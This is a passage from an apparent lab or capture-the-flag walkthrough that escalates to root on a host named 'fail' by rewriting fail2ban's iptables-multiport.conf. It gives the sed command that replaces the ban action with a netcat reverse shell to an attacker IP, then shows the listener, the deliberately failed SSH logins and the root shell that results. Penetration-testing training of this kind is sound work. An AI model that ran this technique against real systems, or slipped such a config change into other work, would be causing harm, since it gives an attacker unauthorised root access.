 This action will ban an IP address for a minute after a failed login attempt.

### Reverse Shell

Since we are able to write to these configuration files, we can replace the ban action in **iptables-multiport.conf** with a command of our choosing. Let's check for the existance of Netcat on the system.

```
fox@fail:~$ which nc
/usr/bin/nc
fox@fail:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

Netcat is installed and is in our PATH. Next, let's check the location of `bash`.

```
fox@fail:~$ which bash
/usr/bin/bash
```

We can use Netcat as a simple reverse shell by replacing the action ban command with `nc 192.168.118.5 4444 -e /usr/bin/bash`.

```
fox@fail:~$ sed -i 's:actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>:actionban = nc 192.168.118.5 4444 -e /usr/bin/bash:g' /etc/fail2ban/action.d/iptables-multiport.conf
fox@fail:~$
```

Let's wait a minute for crontab to run and restart `fail2ban` with our new configuration. While we wait, we'll start a Netcat listener on port 4444.

```
kali@kali:~$ nc -lvp 4444 
listening on [any] 4444 ...
```

After a minute, we must purposefully fail an SSH login to trigger our ban action. We'll log in as `fox` with a known banned password. We may need to do this a few times.

```
kali@kali:~$ ssh fox@192.168.120.149
fox@192.168.120.149's password: 
Permission denied, please try again.
fox@192.168.120.149's password:
```

If everything worked as expected, our Netcat listener should catch our reverse shell.

```
kali@kali:~$ nc -lvp 4444
listening on [any] 4444 ...
192.168.120.149: inverse host lookup failed: Unknown host
connect to [192.168.118.5] from (UNKNOWN) [192.168.120.149] 36774
python -c 'import pty; pty.spawn("/bin/bash")'
root@fail:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```
